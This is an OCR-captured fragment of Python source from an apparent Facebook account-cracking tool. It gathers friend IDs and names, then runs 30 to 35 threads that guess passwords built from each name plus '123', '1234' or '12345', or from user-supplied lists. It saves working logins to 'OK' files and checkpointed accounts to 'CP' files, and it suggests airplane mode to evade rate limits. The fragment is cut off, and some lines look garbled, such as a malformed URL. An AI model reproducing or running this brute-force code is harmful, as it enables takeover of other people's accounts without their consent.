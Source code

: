         uid = i["id"]
        nama = i["name"].rsplit(" ")[0]
        id.append(uid+"<=>"+nama)
    except KeyError:
      print(" [!] account not available or private friend list")
  print(" [+] total id  : \033[0;91m%s\033[0;97m"%(len(id)))

def method():
  print(" \n [ choose one crack method]\n")
  print(" [1] api method (fast crack)")
  print(" [2] free method (fast crack) [not for BD user]")
  print(" [3] mbasic method (slow crack)")
  print(" [4] mobile method (slow crack)")
  method = raw_input("\n [+] method : ")
  if method == "":
    menu()
  elif method == "1":
    ask = raw_input(" [?] use manual password? y/n: ")
    if ask == "y":
      with ThreadPoolExecutor(max_workers=30) as coeg:
        print("\n [*] pass example: 102030,556677,786786")
        asu = raw_input(" [?] set pass : ").split(",")
        if len(asu) =="":
          exit(" [!] don't be empty")
        print("\n [+] OK results are saved in : OK/%s.txt"%(tanggal))
        print(" [+] CP results are saved in : CP/%s.txt\n"%(tanggal))
        print(" [!] if no result turn on airplane mode 5 seconds\n")
        for user in id:
          uid, name = user.split("<=>")
          coeg.submit(api, uid, asu)
      exit("\n\n [#] cracks complete...")
    elif ask == "n":
      with ThreadPoolExecutor(max_workers=30) as coeg:
        print("\n [+] OK results are saved in : OK/%s.txt"%(tanggal))
        print(" [+] CP results are saved in : CP/%s.txt\n"%(tanggal))
        print(" [!] if no result turn on airplane mode 5 seconds\n")
        for user in id:
          uid, name = user.split("<=>")
          if len(name)>=6:
            pwx = [ name+"123", name+"1234", name+"12345" ]
          elif len(name) == 3 or len(name) == 4 or len(name) == 5:
            pwx = [ name+"123", name+"1234", name+"12345" ]
          else:
            pwx = [ name+"123", name+"1234", name+"12345" ]
          coeg.submit(api, uid, pwx)
      exit("\n\n [#] cracks complete...")
  elif method == "2":
    ask = raw_input(" [?] use manual password? y/n: ")
    if ask == "y":
      with ThreadPoolExecutor(max_workers=30) as coeg:
        print("\n [*] pass example: 102030, 556677, 786786")
        asu = raw_input(" [?] set pass : ").split(",")
        if len(asu) =="":
          exit(" [!] don't be empty")
        print("\n [+] OK results are saved in : OK/%s.txt"%(tanggal))
        print(" [+] CP results are saved in : CP/%s.txt\n"%(tanggal))
        print(" [!] if no result turn on airplane mode 5 seconds\n")
        for user in id:
          uid, name = user.split("<=>")
          coeg.submit(crack, uid, asu, "https:/free.facebook.com")
      exit("\n\n [#] cracks complete...")
    elif ask == "n":
      with ThreadPoolExecutor(max_workers=35) as coeg:
        print("\n [+] OK results are saved in : OK/%s.txt"%(tanggal))